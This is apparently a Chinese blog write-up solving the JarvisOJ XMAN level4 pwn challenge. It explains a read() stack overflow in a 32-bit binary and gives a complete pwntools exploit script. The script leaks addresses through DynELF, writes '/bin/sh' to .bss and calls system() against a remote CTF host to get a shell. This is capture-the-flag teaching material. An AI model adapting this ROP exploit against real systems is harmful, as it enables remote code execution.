 ```yaml
---
title: XMAN level4 の Write-Up
date: 2020-06-22 10:46:32
categories:
- WriteUPs
- JarvisOJ
tags:
- PWN
- XMAN
- ROP
- Stack
---
```

## Introduction

&emsp;&emsp;这是JarvisOJ的PWN题部分[XMAN]level4的Write-Up，题目思路上和level3一样，只不过在细节处理上有稍微的不一样。本题中由于不知道libc的版本，，所以需要pwntools的DynELF模块寻找函数的内存地址。

<!-- more -->

## Step 1

&emsp;&emsp;程序运行图：

![](/img/XMAN-level4/XMAN1.png)

&emsp;&emsp;checksec：32位程序，仅开启DEP保护

![](/img/XMAN-level4/XMAN2.png)

## Step 2

&emsp;&emsp;把程序丢到hopper中，发现vulnerable_function函数中的read函数存在溢出漏洞：

![](/img/XMAN-level4/XMAN3.png)

&emsp;&emsp;但是程序中既找不到system函数也找不到`/bin/sh`的字符串：

![](/img/XMAN-level4/XMAN4.png)

![](/img/XMAN-level4/XMAN5.png)

&emsp;&emsp;所以第一反应是和[level3](https://coldwave96.github.io/2020/05/20/XMAN-level3/)一样，leak出libc地址然后调用libc中的system函数。

&emsp;&emsp;但是有个问题是我们不知道libc库的版本，所以我们需要通过pwntools的DynELF来寻找system函数的地址。

&emsp;&emsp;DynELF是pwntools中专门用来应对没有libc情况的漏洞利用模块，在提供一个目标程序任意地址内存泄露函数的情况下，可以解析任意加载库的人铱符号地址。具体原理解析可以看FREEBUF上的[Pwntools之DynELF原理探究](https://www.freebuf.com/articles/system/193646.html)一文。

&emsp;&emsp;这样我们的思路就很清楚了：

* 通过vulerable_function()的read()栈溢出构造ROP创造任意地址内存泄露函数

* 结合上一步的函数，利用DynELF获取libc中的system()函数的真实地址

* 通过vulerable_function()的read()栈溢出构造ROP将‘/bin/sh\x00’通过read()写入bss段

* 通过vulerable_function()的read()栈溢出构造ROP执行system(‘/bin/sh’)得到shell

## Step 3

&emsp;&emsp;直接给出EXP脚本：

```Python
* # coding:utf-8
* from pwn import *
* 
* sh = remote('pwn2.jarvisoj.com', 9880)
* elf = ELF('./level4')
* 
* write_plt = elf.plt['write']
* vuln_addr = elf.symbols['vulnerable_function']
* 
* # 定义leak()泄露任意函数地址
* def leak(addr):
*     payload = 'a' * (0x88 + 0x4) + p32(write_plt) + p32(vuln_addr) + p32(1) + p32(addr) + p32(4)
*     sh.sendline(payload)
*     leak_addr = sh.recv(4)
*     return leak_addr
* 
* # 获取sysetem()函数地址
* dynelf = DynELF(leak, elf = elf)
* sys_addr = dynelf.lookup('system', 'libc')
* 
* print('system addr: ' + hex(sys_addr))
* 
* read_plt = elf.plt['read']
* bss_addr = 0x804a024
* 
* # 往内存中写入shellcode
* payload1 = 'a' * (0x88 + 0x4) + p32(read_plt) + p32(vuln_addr) + p32(0) + p32(bss_addr) + p32(8)
* sh.sendline(payload1)
* sh.send('/bin/sh\x00')
* 
* # 执行system()函数get shell
* payload2 = 'a' * (0x88 + 0x4) + p32(sys_addr) + p32(0) + p32(bss_addr)
* sh.sendline(payload2)
* 
* sh.interactive()
* sh.close()
```

&emsp;&emsp;脚本运行结果图：

![](/img/XMAN-level4/XMAN6.png)